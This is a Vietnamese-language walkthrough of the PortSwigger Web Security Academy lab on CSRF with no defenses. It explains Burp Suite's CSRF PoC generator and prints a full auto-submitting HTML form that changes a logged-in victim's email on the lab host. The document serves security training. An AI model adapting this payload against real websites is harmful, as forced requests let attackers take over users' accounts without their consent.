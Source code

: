 # How to construct a CSRF attack

Việc tạo HTML theo cách thủ công để khai thác CSRF có thể cồng kềnh, đặc biệt là khi request mong muốn chứa một số lượng lớn params hoặc có những điều kỳ quặc khác trong request. Cách dễ nhất để xây dựng khai thác CSRF là sử dụng CSRF PoC generator, được tích hợp trong Burp Suite Professional:

- Chọn bất cứ requests nào trong Burp Suite Professional mà muốn kiểm tra hoặc khai thác.
- Từ context-menu nhấp chuột phải, chọn Engagement tools / Generate CSRF PoC.
- Burp Suite sẽ tạo ra một số HTML mà sẽ kích hoạt request đã chọn (trừ cookie, sẽ tự động thêm bởi trình duyệt của nạn nhân).
- Có thể điều chỉnh các tùy chọn khác nhau trong CSRF PoC generator để tinh chỉnh các khía cạnh của cuộc tấn công. Có thể cần phải làm điều này trong một số tình huống bất thường để đối phó với các tính năng kỳ quặc của requests.
- Sao chép HTML được tạo vào website, xem nó trong trình duyệt được đăng nhập vào website dễ bị tổn thương và kiểm tra xem request dự định có được ban hành thành công hay không và hành động mong muốn xảy ra.

# Lab: CSRF vulnerability with no defenses

![img](https://imgur.com/KUofHKL.png)

### Web page:

![img](https://imgur.com/TvuMeyI.png)

Log in với account được cung cấp: wiener:peter

![img](https://imgur.com/AqtI3jt.png)

Click Update Email và Intercept request này Burp Suite:

![img](https://imgur.com/rIpnCRZ.png)

Truy cập Exploit Server: 

![img](https://imgur.com/hS3wY3V.png)

![img](https://imgur.com/ZE0a7PB.png)

Truy cập *https://github.com/ChrisM-X/PortSwigger-Academy-CheatSheets/blob/master/Cross-site%20Request%20Forgery%20(CSRF)/README.md* để lấy CSRF HTML payload:

*<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a290081042f97a0838e74f5003c005b.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="Test@Test.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>*

Chỉnh sửa URL và copy vào phần body, sau đó click Store: 

![img](https://imgur.com/ntSeppk.png)

View exploit để xác nhận và cuối cùng Deliver exploit to the victim.

Solved the lab!

![img](https://imgur.com/UAldlL8.png)
